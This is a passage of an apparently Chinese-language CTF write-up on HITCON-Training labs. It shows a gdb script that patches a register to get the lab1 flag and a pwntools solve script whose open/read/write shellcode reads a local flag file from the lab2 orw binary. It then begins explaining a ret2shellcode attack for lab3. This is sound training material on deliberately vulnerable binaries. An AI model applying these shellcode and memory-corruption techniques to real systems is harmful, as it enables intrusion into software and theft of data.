 ![](http://ww1.sinaimg.cn/large/006AWYXBly1fpcpngmh9cj30f904gdfx.jpg)

直接写出 gdb 脚本

```shell
lab1 [master●●] cat solve 
b *get_flag+389
r
#your input
set $eax=$edx
c
lab1 [master●●] 
```

也可得到 flag

![](http://ww1.sinaimg.cn/large/006AWYXBly1fpcpmxbneij30qu0c5dll.jpg)

同时注意，IDA 对字符串的识别出了问题，修复方法可以参考 inndy 的 [**ROP2**](http://www.cnblogs.com/WangAoBo/p/7706719.html)

### lab2-orw.bin

通过查看 prctl 的 man 手册发现该程序限制了一部分系统调用，根据题目的名字 open, read, write以及IDA分析，很明显是要我们自己写读取并打印 flag 的 shellcode 了，偷个懒，直接调用 shellcraft 模块

```python
lab2 [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
from pwn import shellcraft as sc
context.log_level = "debug"

shellcode = sc.pushstr("/home/m4x/HITCON-Training/LAB/lab2/testFlag")
shellcode += sc.open("esp")
#  open返回的文件文件描述符存贮在eax寄存器里 
shellcode += sc.read("eax", "esp", 0x100)
#  open读取的内容放在栈顶 
shellcode += sc.write(1, "esp", 0x100)

io = process("./orw.bin")
io.sendlineafter("shellcode:", asm(shellcode))
print io.recvall()
io.close()
lab2 [master●●] 
```

该题与 pwnable.tw 的 orw 类似，那道题的 writeup 很多，因此就不说直接撸汇编的方法了

### lab3-ret2sc

很简单的 ret2shellcode，程序没有开启 NX 和 canary 保护，把 shellcode 存贮在 name 这个全局变量上，并 ret 到该地址即可
